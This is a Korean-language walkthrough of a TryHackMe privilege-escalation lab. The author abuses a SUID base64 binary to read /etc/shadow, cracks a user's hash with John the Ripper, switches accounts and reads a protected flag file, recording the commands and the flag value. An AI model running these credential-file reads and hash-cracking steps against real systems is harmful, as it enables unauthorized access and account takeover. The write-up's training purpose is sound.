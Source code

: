 ## Privilege Escalation: SUID 
> TryHackMe의 "Privilege Escalation: SUID" 실습을 기반으로, SUID가 설정된 바이너리 중 `base64` 명령어를 활용해 `/etc/shadow` 파일을 읽고 사용자 계정 정보를 탈취한 후, 계정 크랙과 전환을 통해 플래그를 획득하는 과정을 수행하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.235.109
- **공격 머신**: Kali Linux
- **초기 사용자 계정**: `karen`
- **권한 상승 방법**: `base64` SUID 바이너리 악용
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속

```bash
ssh karen@10.10.235.109
```
- 타겟 머신에 karen 계정으로 SSH 접속하여 권한 상승을 위한 탐색을 시작하였다.

![SSH 접속 및 로그인](./screenshots/ssh_connect.png)

---

#### 2.2 SUID 바이너리 검색
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- 시스템 전체에서 SUID 권한이 부여된 파일 목록을 검색하였다.
- `/usr/bin/base64` 바이너리에 SUID가 설정되어 있는 것을 발견하였다.

![SUID 파일 검색](./screenshots/suid_search.png)

---
#### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 base64 명령어가 SUID로 설정되어 있을 경우 파일을 인코딩 방식으로 우회 접근이 가능하다는 점을 확인하였다.

---
#### 2.4 base64 SUID를 이용한 /etc/shadow 읽기

- 일반적으로 접근할 수 없는 `/etc/shadow` 파일을 base64 명령어로 인코딩 후 디코딩하여 내용을 출력하였다.

```bash
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 사용자 계정들의 해시된 패스워드를 확보하였다.

![shadow 파일 탈취](./screenshots/base64_suid.png)

---

#### 2.5 hash.txt로 저장 및 john으로 크랙
- 탈취한 해시를 `hash.txt` 파일로 저장하고, john the ripper를 사용하여 크랙하였다.

```bash
john --show hash.txt
```
- `user2`의 비밀번호 `Password1`을 성공적으로 크랙하였다.

![존으로 크랙](./screenshots/john_crack.png)

---

#### 2.6 su 명령어로 user2 계정 전환
```bash
su user2
# Password1 입력
```
- 크랙한 비밀번호를 이용해 `user2` 계정으로 전환하였다.

---

#### 2.7 플래그 파일 찾기 및 base64로 읽기
```bash
find / -name flag3.txt 2>/dev/null
cat /home/ubuntu/flag3.txt  # 권한 없음

LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 플래그 파일의 위치를 찾았으나 직접 `cat` 명령으로 읽을 수는 없었다.
- 다시 SUID base64를 활용하여 파일 내용을 인코딩 후 디코딩함으로써 우회적으로 내용을 읽어내어 플래그 획득에 성공하였다.

![flag3.txt 확보](./screenshots/flag_secure.png)

---

### 3. 최종 결과
- 사용자 계정 정보 탈취 및 크랙에 성공.
- SUID 권한이 부여된 `base64`를 이용한 권한 우회에 성공.
- flag3.txt 파일에서 플래그 확보: `THM-3847834`

---

### 4. 배운 점
> ✅ 실습을 통해 SUID 바이너리가 가지는 보안적 위험성과, 평범해 보이는 명령어도 공격에 활용될 수 있음을 명확히 체감할 수 있었다. 특히 nano, less와 같은 텍스트 편집 도구에 SUID가 설정되어 있다면, /etc/shadow 파일을 unshadow 명령어로 복원하고 사전 기반 크랙을 통해 루트 계정까지 탈취할 수 있는 매우 위험한 공격 시나리오도 고려할 수 있었을 것이다.

